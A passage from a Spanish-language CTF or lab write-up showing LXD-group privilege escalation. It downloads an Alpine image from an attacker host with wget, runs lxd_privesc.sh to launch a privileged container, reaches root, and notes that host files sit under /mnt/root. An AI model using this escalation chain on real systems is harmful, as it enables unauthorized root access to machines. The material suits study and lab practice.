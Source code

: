Ahora el comprimido

```bash
namelessone@anonymous:/tmp$ wget http://10.2.28.226:80/alpine-v3.17-x86_64-20230331_2017.tar.gz
--2023-04-01 02:23:58--  http://10.2.28.226/alpine-v3.17-x86_64-20230331_2017.tar.gz
Connecting to 10.2.28.226:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3691917 (3.5M) [application/gzip]
Saving to: ‘alpine-v3.17-x86_64-20230331_2017.tar.gz’

alpine-v3.17-x86_64-20230331_20 100%[=======================================================>]   3.52M  50.5KB/s    in 2m 10s  

2023-04-01 02:26:08 (27.8 KB/s) - ‘alpine-v3.17-x86_64-20230331_2017.tar.gz’ saved [3691917/3691917]

namelessone@anonymous:/tmp$ 
```

Le das permisos de ejecucion

```bash
namelessone@anonymous:/tmp$ chmod +x lxd_privesc.sh 
```

Y ejecutamos

```bash
namelessone@anonymous:/tmp$ ./lxd_privesc.sh -f alpine-v3.17-x86_64-20230331_2017.tar.gz 
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first container, try: lxc launch ubuntu:18.04

Image imported with fingerprint: 49827c2692cfd86a4cacc379bdb626ea2efc20af030748a242d8d0c70f56809b
[*] Listing images...

+--------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+--------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| alpine | 49827c2692cf | no     | alpine v3.17 (20230331_20:17) | x86_64 | 3.52MB | Apr 1, 2023 at 2:27am (UTC) |
+--------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
Creating privesc
Device giveMeRoot added to privesc
~ # whoami
root
~ # 
```

Estamos en el contenedor en las instrucciones dice que tenemos que ir a `/mnt/root to see all resources from the host machine` y bueno esos ya son los archivos de la maquina victima

